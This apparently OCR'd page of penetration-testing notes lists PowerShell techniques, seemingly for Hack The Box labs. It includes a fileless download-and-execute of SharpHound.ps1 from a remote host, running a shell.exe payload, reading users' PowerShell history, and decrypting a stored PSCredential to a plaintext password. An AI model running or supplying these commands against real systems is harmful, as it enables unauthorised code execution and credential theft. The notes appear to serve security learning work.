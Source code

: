 ## Fileless WinAPI
```
$wr = [System.NET.WebRequest]::Create("http://192.168.10.1:8000/SharpHound.ps1") 
$r = $wr.GetResponse() 
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```


## Running Executable
```
c:\> start-process shell.exe
c:\> .\shell.exe
```

## Searching for files names with PowerShell
```
Get-Childitem –Path C:\ -Include *search-string* -File -Recurse
```

 ## Decoding Base64
 ```
 $string = "some-base64 aksdjklasd=="
 [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($string))
  ```

## Reading Users PowerShell History
```
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## Decoding .PSCredential

[url] https://mcpmag.com/articles/2017/07/20/save-and-read-sensitive-data-with-powershell.aspx

```
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>

$tom_credential = Import-CliXml -Path .\cred.xml
$tom_credential.GetNetworkCredential().Password
```
